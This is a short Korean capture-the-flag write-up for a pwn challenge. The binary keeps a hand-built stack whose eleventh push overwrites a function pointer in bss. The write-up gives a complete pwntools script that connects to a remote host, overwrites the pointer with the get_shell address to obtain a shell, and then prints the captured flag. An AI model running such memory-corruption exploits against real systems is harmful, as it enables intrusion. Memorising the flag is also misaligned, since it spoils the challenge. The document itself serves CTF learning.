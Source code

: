 stack을 직접 구현해놨다. main 뒤쪽에 `func()` 이 있는데, 이것은 bss 영역에 있었다. 또한 스택을 11번 채우면 변조할 수 있는 변수이기도 하다. get_shell 함수를 친절하게 주었으므로, 그대로 변조하여 쉘을 받아낸다.

# Exploit code

```python
from pwn import *
from time import *
from tqdm import *

p = remote('44.210.9.208', 10013)

get_shell = 0x4012F2

for i in tqdm(range(10)):
    p.sendlineafter(b'> ', b'1')
    sleep(0.3)
    p.sendline(b'a')
    sleep(0.3)

p.sendlineafter(b'> ', b'1')
sleep(0.3)
p.sendline(p64(get_shell))
sleep(0.3)
p.sendlineafter(b'> ', b'4')
p.interactive()
```
`scpCTF{TYr64HK4QhV8PzRcPFlqolsBHX6sXU}`